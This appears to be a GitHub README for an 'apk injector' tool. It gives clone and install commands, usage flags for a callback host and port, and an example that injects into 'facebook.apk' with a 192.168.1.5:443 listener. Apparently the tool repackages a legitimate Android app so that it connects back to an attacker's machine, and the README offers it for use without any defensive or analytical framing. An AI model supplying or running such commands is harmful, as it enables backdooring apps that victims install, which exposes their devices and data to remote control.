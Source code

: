 # apk injector
# installation:
      git clone https://github.com/siraiayoub/apk_injector.git
      chmod 777 apk_injector/x-apk.py && apk_injector/x-apk.py

# Usage:
      apk_injector/x-apk.py -h=<ip or host> -p=<port> -x=<original apk>

# Example:
      apk_injector/x-apk.py -h=192.168.1.5 -p=443 -x=facebook.apk

# screenshot:
![screenshot from 2018-08-31 20-12-28](https://user-images.githubusercontent.com/42876999/44940039-f2299d00-ad81-11e8-8d09-607862a74cfc.png)
